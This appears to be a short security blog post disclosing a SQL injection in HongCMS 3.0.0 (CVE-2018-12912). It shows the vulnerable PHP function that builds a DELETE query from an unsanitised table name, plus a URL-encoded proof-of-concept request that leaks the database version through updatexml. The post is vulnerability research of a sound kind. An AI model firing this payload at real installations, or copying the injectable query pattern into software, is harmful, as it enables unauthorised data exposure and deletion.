 +++
title = "HongCMS 3.0.0 – SQL Injection"
author = "Hzllaga"
date =  2018-06-29
description = ""
categories = ["原创"]
tags = ["代码审计","PHP","SQL注入"]

+++
Vulnerability file: admin\controllers\database.php
{{< highlight php >}}
private function EmptyTable($tablename)
{
    $this->db->exe("DELETE FROM `$tablename`");
    $msg = '已完成清空数据库表: ' . $tablename . '<br/>';

    return $msg;
}
{{< /highlight >}}

The $tablename parameter controllable.

POC (Administrator Privilege):

{{< highlight php >}}

/admin/index.php/database/operate?dbaction=emptytable&tablename=hong_vvc%60%20where%20vvcid%3D1%20or%20updatexml%282%2Cconcat%280x7e%2C%28version%28%29%29%29%2C0%29%20or%20%60

{{< /highlight >}}

![](https://cdn.wtfsec.org/img/20200223163530.png)
CVE:[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12912](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12912)
exploit-db:[https://www.exploit-db.com/exploits/44953/](https://www.exploit-db.com/exploits/44953/)